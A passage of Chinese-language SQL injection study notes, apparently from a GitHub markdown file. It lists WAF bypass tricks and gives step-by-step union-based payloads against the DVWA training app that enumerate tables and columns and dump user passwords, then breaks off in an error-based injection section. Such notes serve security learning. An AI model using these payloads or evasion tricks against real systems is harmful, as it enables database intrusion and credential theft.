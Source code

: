     **符号和关键字:**

    `and` / `&``or` / `|`

- - **HTTP参数**

    HTTP参数污染`id=1&id=2&id=3` 根据容器不同会有不同的结果HTTP分割注入

- - **缓冲区溢出**

    一些C语言的WAF处理的字符串长度有限，超出某个长度后的payload可能不会被处理

- 二次注入有长度限制时，通过多句执行的方法改掉数据库该字段的长度绕过

### 1.3联合注入

union select：他会把查询的内容拼接到表的下方，==两个要查询的表的字段数量要相等，数据类型也要相同==

**get流程：**

```sql
# 一、判断注入点的类型
# 二、判断表有几个字段

?id=1' order by 3 --+

# 三、判断哪个字段有回显

?id=-1' union select 1,2 --+

# 四、判断数据库、表名、字段名
?id=-1' union select 1,database() --+

?id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'  --+

?id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa' --+

# 五、查看表中字段的值

?id=-1' union select 1,group_concat(first_name,':',password) from dvwa.users --+
```

**Post流程**

​	使用Burpsuite代理来做重发

### 1.4报错注入

##### 1.4.1updatexml

updataxml(exp1,**exp2**,exp3)：替换指定路径下xml文件的内容

exp1：查询的内容

exp2：X-Path
